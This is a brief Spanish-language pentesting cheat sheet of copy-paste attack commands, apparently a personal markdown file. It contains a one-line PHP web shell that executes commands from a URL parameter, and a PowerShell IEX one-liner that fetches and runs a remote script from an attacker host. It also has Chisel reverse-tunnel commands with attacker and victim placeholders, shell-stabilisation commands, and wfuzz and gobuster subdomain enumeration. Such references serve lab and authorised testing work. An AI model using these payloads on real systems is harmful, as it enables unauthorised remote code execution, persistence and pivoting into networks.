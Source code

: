 # Cheatsheet
Cosas copypaste

# Reverse Shells

Web Shell PHP
```
<?php system($_GET[cmd]);?>
```

# Powershell

Descargar binarios
```
powershell IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/binario.binario')
```

# PostExplotacion

## Chisel

Atacante
```
./chisel server --reverse -p ATACKER_PORT
```

Víctima
```
./chisel client ATTACKER_IP:ATTACKER_PORT R:VICTIM_IP:VICTIM_PORT
```

## Mejorar Shell

Linux
```
script /dev/null -c bash
```
```
stty raw -echo ;fg
```
```
reset xterm
```
```
export TERM=xterm
```
```
export SHELL=bash
```

# Enumeracion

## Directory Listing & subdomain discovering

wfuzz

```
wfuzz -c --hc=404 -t 200 -w /usr/share/seclist/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.dominio.ext" url
```
Gobuster

```
gobuster vhost -u url -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```


